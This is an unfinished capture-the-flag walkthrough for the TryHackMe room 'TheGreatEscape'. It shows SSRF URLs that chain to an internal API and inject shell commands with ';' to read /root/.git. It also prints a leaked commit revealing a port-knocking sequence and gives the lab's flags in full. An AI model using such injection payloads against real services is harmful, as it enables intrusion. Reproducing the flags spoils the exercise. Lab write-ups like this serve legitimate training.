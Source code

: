 # Room: [TheGreatEscape](https://tryhackme.com/room/thegreatescape)


:warning: Work in progress :warning:

## Basic enum:

the `robots.txt` gives us  http://10.10.204.152/exif-util/

=> http://escape.thm/exif-util.bak.txt ...

```bash
Fascinant! http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;ls%20-lrtah

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;ls%20-larth%20/root/.git

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;git%20--git-dir%20/root/.git%20log

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;git%20--git-dir%20/root/.git%20show%20a3d30a7d0510dc6565ff9316e3fb84434916dee8
```
Ok so at least we have:

```bash
commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes

diff --git a/dev-note.txt b/dev-note.txt
new file mode 100644
index 0000000..89dcd01
--- /dev/null
+++ b/dev-note.txt
@@ -0,0 +1,9 @@
+Hey guys,
+
+I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.
+
+Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
+
+Cheers,
+
+Hydra
\ No newline at end of file
diff --git a/flag.txt b/flag.txt
new file mode 100644
index 0000000..aae8129
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1,3 @@
+You found the root flag, or did you?
+
+THM{0cb4b947[Redcated]b75a10876}
\ No newline at end of file
```


<details><summary>Click to reveal the user flag</summary>

    ```bash
    THM{0cb4b947043cb5c0486a454b75a10876}
    ```
</details>


```bash
# cd .well-known
# ls
security.txt
# cat security.txt
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```

Ok fair enough :nerd_face:

```
root@X-X-X-X:~# curl -IXHEAD http://plop.thm/api/fl46
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sat, 17 Jul 2021 19:42:15 GMT
Connection: keep-alive
flag: THM{b801135[Redcated]a44c2e5ad4}
```

<details><summary>Click to reveal the root flag</summary>

    ```bash
      THM{b801135794bf1ed3a2aafaa44c2e5ad4}
    ```
</details>

